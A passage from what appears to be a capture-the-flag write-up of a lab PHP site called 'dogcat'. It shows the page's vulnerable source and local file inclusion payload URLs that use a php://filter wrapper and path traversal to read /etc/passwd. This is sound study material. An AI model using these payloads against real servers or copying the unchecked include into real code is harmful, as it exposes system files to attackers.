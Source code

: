 Note how it wants us to only look at cats or dogs. I put in `http://10.10.152.133/?view=php://filter/read=convert.base64-encode/resource=./dog/../../../../etc/passwd` to sneak, and it gives:

![](https://i.imgur.com/rTB0ycb.png)

So now using that null byte, we get:

![](https://i.imgur.com/U4LAy7k.png)

Nothing yet. So it'd now help to have a look at the index file itself.

```
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

This makes a lot of sense. We can see it always wants dog or cat included. It also has this parameter `ext`, which we can set or unset. This means the url must look like:

```
http://10.10.152.133/?view=php://filter/read=convert.base64-encode/resource=dog../../../../../../etc/passwd&ext=
```
